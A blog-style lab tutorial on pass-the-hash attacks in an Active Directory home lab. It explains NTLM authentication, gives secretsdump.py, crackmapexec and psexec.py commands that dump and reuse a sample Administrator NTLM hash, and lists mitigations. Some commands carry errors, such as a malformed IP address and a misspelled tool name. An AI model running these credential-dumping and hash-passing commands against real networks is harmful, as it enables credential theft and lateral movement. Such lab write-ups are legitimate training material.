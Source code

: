 ```yaml
---
title: "Introduction And Scenario of create Active Directory Lab "
layout: post
category: Active-Directory
tags: [AD, Windows-server]
excerpt: " "
---
```



# Pass the Hash Overview

This **attack only works with local SAM hashes(NTLM)** and **not Domain hashes(NTLM2)**. Since many administrators use the same passwords for both local and domain accounts it is possible to login to a domain controller and other high value systems using only local hashes.

Pass the hash is a technique used to steal credentials and enable lateral movement within a target network. In Windows networks, the challenge-response model used by NTLM security is abused to enable a malicious user to authenticate as a valid domain user without knowing their password. Even though Kerberos has replaced NTLM as the preferred authentication method for Windows domains, NTLM is still enabled in many Windows domains for compatibility reasons. And so, pass the hash attacks remain an effective tool in the hands of skilled attackers.

## How NTLM authentication works  
1. The user enter his username and password.  
2. The client software generates a hash of password (and discards the cleartext password).  
3. The username is sent to the target system requesting authentication.  
4. A security challenge is returned which the client encrypts using the password hash and then sends back.  
5. The target system passes the encrypted response to the Domain Controller who also encrypts the challenge with its copy of the user’s password hash – if it matches then the user is authenticated

# Pass the Hash Attack
## Get NTLM Hash

- Installing crackmapexec  

```bash
apt install crackmapexec
```


- Dumping Hashes with secretsdump.py 

```bash
#secretsdump.py DC/username:password@DCip

secretsdump.py homelab.local/superman:'Password123!'@192.1168.1.2

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823175602.png){: }

- admin NTLM hash
- syntax  **(uid:rid:lmhash:nthash)**

```
Dumping local SAM hashes **(uid:rid:lmhash:nthash)**

Administrator:500:aad3b435b51404eeaad3b435b51404ee:3b5edb4ae7153d3871522857b2bd1e60


Administrator -> 3b5edb4ae7153d3871522857b2bd1e60
 
```


## # Pass NTLM Hash
- After get hash when perform [smb relay attack](https://seczone1.github.io/Active_Directory/2022-07-14-SMB-Relay-Attack) 

- using  crakmapexec Tool 
```bash

crakmapexec DC-IP -u "username" -H ntlm  --local

crakmapexec 192.168.1.2 -u Administrator -H 3b5edb4ae7153d3871522857b2bd1e60 --local

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823181748.png){: }


- Using Psexec Tool 

```bash
psexec.py "Username"@DC-IP -hashes Lmhash:NThash

psexec.py Administrator@192.168.1.2 Lmhash:NThash aad3b435b51404eeaad3b435b51404ee:3b5edb4ae7153d3871522857b2bd1e60

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823182002.png){: }


# Pass Hash Attack Mitigations  

Hard to completely prevent, but we can make it more difficult on an attacker:  
- Limit account re-use:  
- Avoid re-using local admin password  
- Disable Guest and Administrator accounts  
- Limit who is a local administrator (least privilege)  
- Utilize strong passwords:  
- The longer the better (>14 characters)  
- Avoid using common words  
- I like long sentences  
- Privilege Access Management (PAM)  
- Check out/in sensitive accounts when needed  
- Automatically rotate passwords on check out and check in  


